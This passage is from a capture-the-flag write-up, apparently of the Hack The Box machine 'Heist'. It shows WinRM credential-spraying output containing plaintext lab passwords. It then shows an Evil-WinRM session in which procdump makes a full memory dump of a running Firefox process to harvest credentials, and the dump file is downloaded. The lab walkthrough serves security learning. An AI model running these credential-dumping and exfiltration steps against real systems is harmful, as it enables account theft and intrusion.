 ```bash
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:Q4)sJu\Y8qz*A3?d "Access is denied.  (extended fault data: {'transport_message': 'Bad HTTP response returned from server. Code 500', 'http_status_code': 500, 'wsmanfault_code': '5', 'fault_code': 's:Sender', 'fault_subcode': 'w:AccessDenied'})"
```

Logged in as Chase.<br/>
![1f827bc46da7ae8166a5eaa4d0d2e63d.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/a300ea1ca46a4511a24006ea75412340.png)

## Privilege Escalation

While enumerating I found `Firefox` is installed which is odd.<br/>
![img.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/fa28e271fa824f7cbdf258c4929df8cd.png)

Let's check whether its running? Yes `Firefox` is running.<br/>
![e2b5342d10bc1dbd805f4050777352c5.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/6162aa5639be416babb93c56257f8771.png)

We can dump these processes using `procdump.exe`. We can download it from [here](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

If we run that `procdump.exe` it asks me to accept EULA first.
```
This is the first run of this program. You must accept EULA to continue.
Use -accepteula to accept EULA.
```

So by running `.\procdump64.exe -accepteula` we accepted that. Now its time to dump the process.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -ma 4276

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[12:18:00] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp
[12:18:01] Dump 1 writing: Estimated dump file size is 281 MB.
[12:18:07] Dump 1 complete: 281 MB written in 7.1 seconds
[12:18:08] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```


> -ma     Write a 'Full' dump file.
  				Includes All the Image, Mapped and Private memory.

> 4276 	Firefox ID which I got from ps


Download that file to my machine. It takes some time because the file size is 281mb.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/25/2020  12:18 PM      286846903 firefox.exe_200425_121800.dmp
-a----        4/25/2020  12:09 PM         341672 procdump64.exe


*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_200425_121800.dmp
```